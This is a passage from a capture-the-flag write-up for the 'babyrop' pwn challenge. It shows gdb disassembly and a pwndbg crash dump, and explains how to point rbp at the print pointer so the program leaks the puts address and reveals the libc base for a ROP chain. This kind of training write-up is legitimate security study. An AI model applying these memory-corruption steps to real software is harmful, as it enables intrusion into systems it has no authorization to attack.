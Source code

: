 ```
  => 0x0000000000401211 <+66>:	mov    rdx,QWORD PTR [rip+0x2df8]        # 0x404010 <print>
     0x0000000000401218 <+73>:	lea    rax,[rbp-0x20]
     0x000000000040121c <+77>:	mov    rdi,rax
     0x000000000040121f <+80>:	call   rdx
     0x0000000000401221 <+82>:	mov    eax,0x0
     0x0000000000401226 <+87>:	leave
     0x0000000000401227 <+88>:	ret

```
We can see that `print` function is called with `rbp-0x20` as argument. So we have to set rbp to `0x000000404010+0x20` to make it work.<br>
Now we can leak `puts` address and calculate `libc` base address. After that we can use `libc` gadgets to solve this challenge.<br>
Since there is no valid data at rbp, we are expected to see this in gdb:
```Program received signal SIGSEGV, Segmentation fault.
0x0000000000000000 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
───────────────────────────────────────────────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]────────────────────────────────────────────────────────────────────────────────────────────
*RAX  0
 RBX  0x7fff651e32e8 —▸ 0x7fff651e5195 ◂— '/home/delete/CTFs/SmileyCTF/babyrop/vuln_patched'
*RCX  0x70b17c71c574 (write+20) ◂— cmp rax, -0x1000 /* 'H=' */
*RDX  0
*RDI  0x70b17c805710 (_IO_stdfile_1_lock) ◂— 0
*RSI  0x70b17c804643 (_IO_2_1_stdout_+131) ◂— 0x805710000000000a /* '\n' */
*R8   6
 R9   0x70b17ca0a380 (_dl_fini) ◂— endbr64 
 R10  0x7fff651e2ee0 ◂— 0x800000
*R11  0x202
 R12  1
 R13  0
 R14  0x403dc8 (__do_global_dtors_aux_fini_array_entry) —▸ 0x401140 (__do_global_dtors_aux) ◂— endbr64 
 R15  0x70b17ca3d000 (_rtld_global) —▸ 0x70b17ca3e2e0 ◂— 0
*RBP  0
*RSP  0x404040 ◂— 0
*RIP  0
────────────────────────────────────────────────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]─────────────────────────────────────────────────────────────────────────────────────────────────────
Invalid address 0x0










──────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────────────────────────────────────────────────────────────────────────
00:0000│ rsp 0x404040 ◂— 0
... ↓        7 skipped
────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────────────────────────────────────────────────────────────────────────
 ► 0              0x0 None
   1              0x0 None
```